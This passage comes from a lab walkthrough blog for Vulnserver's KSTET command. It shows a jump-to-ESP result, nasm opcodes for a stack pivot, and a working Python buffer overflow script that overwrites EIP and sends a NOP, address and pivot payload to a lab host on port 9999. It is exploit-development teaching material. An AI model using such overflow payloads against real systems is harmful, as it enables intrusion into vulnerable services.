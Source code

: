 ```c
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-jmpesp.png">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the second stage shellcode to exploit the program

In this blog we will try to exploit this by using ```socket reusage stager```

## Stack pivoting

Lets create the opcode value to drift back to EAX register using nasm-shell,

On EAX our ```KSTET``` value takes 6 bytes and lets other bytes as NOPs

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xcc" # break point to analyse
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 stack-pivot.py
```
